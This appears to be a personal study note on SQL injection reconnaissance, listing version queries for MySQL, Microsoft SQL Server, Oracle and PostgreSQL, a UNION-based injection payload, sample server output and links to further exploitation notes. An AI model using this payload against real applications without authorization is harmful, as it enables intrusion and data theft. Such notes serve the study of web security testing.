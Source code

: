 # Querying the database type and version
#DATABASEENUM 

Each database provider defines a way to query the version. It's often needed to try different queries to find one that works, allowing to determine the version and the database software.

Some examples of popular databases are:

#SQLiPAYLOAD
Database type| Query
------------ | ------------
Microsoft, MySQL|`SELECT @@version`
Oracle|`SELECT * FROM v$version`
PostgreSQL|`SELECT version()`

Using an `UNION` attack use the following payload
#SQLiPAYLOAD 

```SQL
' UNION SELECT @@version--
```

That might return a result containing the software and version of the database in this case `Microsoft SQL Server`

```
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64) Mar 18 2018 09:11:49 Copyright (c) Microsoft Corporation Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
```

## Exploitation examples

- Oracle [[Oracle querying database type and version]]
- MySQL & Microsoft [[MySQL & Microsoft querying database type and version]]


Further enumeration:

[[Listing the contents of the database]]
